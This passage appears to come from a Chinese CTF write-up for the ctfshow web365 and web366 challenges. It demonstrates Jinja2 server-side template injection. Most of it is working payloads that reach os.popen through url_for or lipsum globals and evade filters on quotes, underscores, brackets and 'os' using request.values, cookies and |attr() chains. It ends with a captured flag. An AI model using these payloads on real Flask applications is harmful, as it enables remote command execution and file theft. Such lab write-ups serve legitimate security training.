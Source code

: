 ```
config.__str__().__getitem__(22) == c
config.__str__().__getitem__(40) == a
config.__str__().__getitem__(23) == t
config.__str__().__getitem__(7) ==  
config.__str__().__getitem__(279) == /
config.__str__().__getitem__(4) == f
config.__str__().__getitem__(41) == l
config.__str__().__getitem__(40) == a
config.__str__().__getitem__(6) == g
```

构造payload

```
?name={{url_for.__globals__.os.popen(config.__str__().__getitem__(22)~config.__str__().__getitem__(40)~config.__str__().__getitem__(23)~config.__str__().__getitem__(7)~config.__str__().__getitem__(279)~config.__str__().__getitem__(4)~config.__str__().__getitem__(41)~config.__str__().__getitem__(40)~config.__str__().__getitem__(6)
).read()}}
```

方法二：values传参

```
# values 没有被过滤
?name={{lipsum.__globals__.os.popen(request.values.ocean).read()}}&ocean=cat /flag
```

方法三：cookie传参

```
# cookie 可以使用
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
Cookie:c=cat /flag
```

### ctfshow web366

过滤了单双引号，args，\[\]，_，os

单双引号可以用request对象绕过，由于过滤了args，所以我们用request.values来绕过

过滤了\[\]我们用|attr()来绕过

过滤_我们也用request对象来绕过

os我们可以用编码来绕过

payload

```
?name={{lipsum|attr(request.values.a)|attr(request.values.b)(request.values.c)|attr(request.values.d)(request.values.ocean)|attr(request.values.f)()}}&ocean=cat /flag&a=__globals__&b=__getitem__&c=os&d=popen&f=read
```

```
ctfshow{0c9d868e-81c8-4c30-a2d4-534e5e17e8b6}
```
